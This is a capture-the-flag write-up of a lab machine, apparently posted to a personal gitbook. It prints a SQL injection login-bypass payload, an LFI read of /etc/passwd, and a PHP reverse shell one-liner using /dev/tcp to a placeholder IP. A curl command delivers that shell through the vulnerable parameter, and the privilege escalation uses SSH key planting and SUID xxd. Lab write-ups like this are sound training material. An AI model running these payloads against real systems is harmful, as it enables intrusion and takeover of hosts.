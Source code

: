 ```yaml
---
sticker: emoji//1f9c0
---
```


![](gitbook/cybersecurity/images/Pasted%252520image%25252020240927153835.png)
This CTF contains a port scanning "block" method, since it show a lot of open ports in which most of services, are unavailable, for our luck, port 80 is open and has a login page:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020240927153919.png)
I tried different things such as `XSS` `LFI` `PATH TRAVERSAL` `BRUTEFORCE` and more, then when i tried `SQLI` I found a path to exploit, after trying multiple payloads, got with this one that worked for me:

`' || '1'='1';-- -`

Had to URL encode it:

`%27%20%7C%7C%20%271%27%3D%271%27%3B--%20-`

And it showed the following output:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020240927154104.png)

That location seems fun, lets visit it:

We got admin panel even without credentials:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020240927154210.png)
After looking for a while, I found that the request for messages, got me this message:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020240927154349.png)

Let's visit it:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020240927154523.png)

Nothing too useful, but then, looking at the URL I thought about a `LFI`, when i sent the request, i got this:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020240927154621.png)
I was able to read `etc/passwd` file, this website is vulnerable to `LFI`, let's get a reverse shell:

For this, i will be using the following tool:

```github
https://github.com/synacktiv/php_filter_chain_generator/blob/main/php_filter_chain_generator.py`
```

Also, a simple php reverse shell, i will store it in a file called payload.txt: 

```php
"<?php exec('/bin/bash -c \"bash -i >& /dev/tcp/IP/PORT 0>&1\"'); ?>" | grep "^php" > payload.txt
```

Now, let's send the reverse shell and establish a connection to our machine:

###### Sending the payload
`curl "http://10.10.142.162/secret-script.php?file=$(cat payload.txt)"`

![](gitbook/cybersecurity/images/Pasted%252520image%25252020240927160128.png)


![](gitbook/cybersecurity/images/Pasted%252520image%25252020240927160136.png)
We got our reverse shell, let's make it stable using the [[STABLE SHELL|shell tricks]]::

![](gitbook/cybersecurity/images/Pasted%252520image%25252020240927160349.png)
Now, we have an stable shell, let's look for privesc:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020240927160513.png)
We cannot read user.txt contents neither use sudo -l due to the lack of the password for the user, let's look at SUID files:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020240927160551.png)

Nothing useful too, let's keep enumerating the machine:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020240927160737.png)
in `/home/comte/.ssh` we can read and write authorized keys, let's put ours:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020240927161025.png)
![](gitbook/cybersecurity/images/Pasted%252520image%25252020240927161221.png)
I could enter ssh using my own key, let's read that `user.txt` file:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020240927161301.png)\

For privilege escalation we have this sudo permissions:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020240927161701.png)
When i read the `exploit.timer` file, I see this:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020240927161722.png)
Let's change the `OnBootSec` to 5 seconds and enable the service to see what it does:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020240927161803.png)
![](gitbook/cybersecurity/images/Pasted%252520image%25252020240927162007.png)
Once I did this, I found that a new binary was added to the 4000 UID binaries, let's exploit `xxd` to gain root shell:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020240927162104.png)

![](gitbook/cybersecurity/images/Pasted%252520image%25252020240927162740.png)
Now, i got root authorized key access:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020240927162817.png)
just like that, machine is done:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020240927162856.png)


